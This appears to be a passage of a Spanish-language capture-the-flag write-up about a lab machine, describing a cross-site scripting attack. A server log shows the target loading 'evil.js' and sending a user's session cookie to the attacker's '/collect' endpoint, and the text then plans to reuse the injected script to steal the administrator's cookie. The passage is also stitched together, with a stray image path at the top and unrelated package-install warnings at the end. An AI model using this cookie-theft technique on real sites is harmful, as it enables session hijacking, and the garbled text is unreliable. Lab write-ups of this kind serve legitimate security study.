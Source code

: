![Write-up Image](images/Screenshot_2.png)

```shell
$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.230.246 - - [29/Jul/2024 19:34:05] "GET /evil.js HTTP/1.1" 304 -
10.129.230.246 - - [29/Jul/2024 19:34:05] code 404, message File not found
10.129.230.246 - - [29/Jul/2024 19:34:05] "GET /collect?c=user_data=eyJ1c2VyX2lkIjogMiwgInVzZXJuYW1lIjogImFkYW0iLCAicm9sZSI6ICJ3ZWJkZXYifXw1OGY2ZjcyNTMzOWNlM2Y2OWQ4NTUyYTEwNjk2ZGRlYmI2OGIyYjU3ZDJlNTIzYzA4YmRlODY4ZDNhNzU2ZGI4 HTTP/1.1" 404 -
```

Esta cookie, podemos utilizarla para iniciar sesión en el subdominio.  `dashboard.comprezzor.htb`

![Write-up Image](images/Screenshot_3.png)

## Robando la cookie del administrador
Después de investigar un rato, podemos suponer que los reportes con alta prioridad serán revisados por un usuario administrador, por lo cual si en este panel si inyectamos otra vez el script malicioso y lo establecemos como alta prioridad..


[WARNING]: - /tmp/test.tar.gz was NOT installed successfully: Unknown error when
[WARNING]: - /tmp/test.tar.gz was NOT installed successfully: Unknown error when